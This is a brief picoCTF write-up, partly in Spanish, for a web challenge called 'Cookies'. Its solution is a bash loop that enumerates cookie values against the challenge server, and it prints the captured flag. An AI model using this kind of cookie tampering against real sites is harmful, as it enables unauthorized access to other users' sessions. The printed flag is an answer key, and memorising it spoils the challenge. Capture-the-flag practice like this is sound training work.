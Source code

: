 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)
## Datos de acceso al nivel
```
Link: http://mercury.picoctf.net:54219/
```

## Solución

```bash
# Logged in!

jpflores-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>
jpflores-picoctf@webshell:~$ 



``` 